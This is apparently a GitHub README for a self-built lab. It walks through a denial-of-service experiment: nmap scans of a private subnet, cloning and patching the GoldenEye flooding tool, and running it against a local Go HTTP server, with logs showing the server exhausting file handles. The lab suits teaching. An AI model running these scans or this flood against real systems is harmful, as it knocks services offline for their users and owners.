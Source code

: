 # HackersDelight
A whitehats' playground

## DoS using Kali

In this experiment, we use 3 machines:  
1. Your laptop, running a Firefox web browser accessing our simple HTTP server.  
2. A VM running our simple HTTP server written in the Go programming language.  
3. A Kali VM as the machine attacking HTTP server.  

### Download Kali VM and DoS tool

Download and run [Kali VM](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)  

Login to the terminal shell of Kali VM, make your own working directory and `git clone https://github.com/jseidl/GoldenEye.git`  

Fix a [known issue](https://github.com/jseidl/GoldenEye/issues/27) in goldeneye.py, line 465:  
```python
#nrEncodings = random.randint(1,len(acceptEncoding)/2)
nrEncodings = random.randint(1, int(len(acceptEncoding)/2))
```

### HTTP Server - The victim

Get the IP of HTTP server vm:  
```sh
$ hostname -I
192.168.234.129
```

Go to the `httpserver` directory, do `chmod +x httpserver` of the binary is not executable.  
Then run the server.  
```sh
$ ./httpserver 
2020/06/29 00:18:02 HTTP Server
2020/06/29 00:18:02 The final redirect URL for gateway router will be: https://dzone.com/refcardz/getting-started-with-etherium-private-blockchain
2020/06/29 00:18:02 0.0.0.0:8288 up and listening
```

### Laptop Firefox browser
From your laptop, use Firefox to access the HTTP server, `http://192.168.234.129:8288/hello`

### Kali VM - The Attacker

Go back to Kali VM to plan, prepare and attack a victim.  

**Recce phase**
1. Where and what am I? (What is my IP?)  
```sh
$ hostname -I
192.168.234.128
```

2. Who are around? (Select the victim)  
```sh
$ nmap 192.168.234.*
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 05:34 EDT
Nmap scan report for 192.168.234.2
Host is up (0.00072s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain

Nmap scan report for 192.168.234.128
Host is up (0.00075s latency).
All 1000 scanned ports on 192.168.234.128 are closed

Nmap scan report for 192.168.234.129
Host is up (0.0011s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (3 hosts up) scanned in 2.87 seconds
```

3. What are ALL the open ports of victim?
```sh
$ nmap -p- 192.168.234.129
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 05:35 EDT
Nmap scan report for 192.168.234.129
Host is up (0.00048s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8288/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.56 seconds
```
4. Now start attacking the victim using `goldeneye`.  
```sh
$ ./goldeneye.py http://192.168.234.129:8288 -w 50 -s 100 -d
GoldenEye v2.1 by Jan Seidl <jseidl@wroot.org>

Hitting webserver in mode 'get' with 50 workers running 100 connections each. Hit CTRL+C to cancel.
Starting 50 concurrent workers
Starting worker Striker-2
Starting worker Striker-3
Starting worker Striker-4
Starting worker Striker-5
Starting worker Striker-7
Starting worker Striker-8
Starting worker Striker-6
Starting worker Striker-9
...
Starting worker Striker-41
Starting worker Striker-42
Starting worker Striker-45
Initiating monitor
Starting worker Striker-44
Starting worker Striker-46
Starting worker Striker-47
Starting worker Striker-48
Starting worker Striker-51
Starting worker Striker-50
Starting worker Striker-49
```
5. The HTTP server starts to display errors.  
```sh
$ ./httpserver 
2020/06/29 00:18:02 HTTP Server
2020/06/29 00:18:02 The final redirect URL for gateway router will be: https://dzone.com/refcardz/getting-started-with-etherium-private-blockchain
2020/06/29 00:18:02 0.0.0.0:8288 up and listening
2020/06/29 00:43:33 GET /hello HTTP/1.1
2020/06/29 00:43:33 Header["Accept-Language"] = ["en-US,en;q=0.5"]
2020/06/29 00:43:33 Header["Connection"] = ["keep-alive"]
2020/06/29 00:43:33 Header["Upgrade-Insecure-Requests"] = ["1"]
2020/06/29 00:43:33 Header["Accept"] = ["text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8"]
2020/06/29 00:43:33 Header["Dnt"] = ["1"]
2020/06/29 00:43:33 Header["Cache-Control"] = ["max-age=0"]
2020/06/29 00:43:33 Header["User-Agent"] = ["Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0"]
2020/06/29 00:43:33 Header["Accept-Encoding"] = ["gzip, deflate"]
2020/06/29 00:43:33 Host = "192.168.234.129:8288"
2020/06/29 00:43:33 RemoteAddr = "192.168.234.1:58641"
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 5ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 10ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 20ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 40ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 80ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 160ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 320ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 640ms
2020/06/29 00:43:50 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:51 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:52 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:53 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:54 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:55 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
...
```

6. From your laptop, use Firefox to re-access the HTTP server, `http://192.168.234.129:8288/hello`, it waits and hangs.  

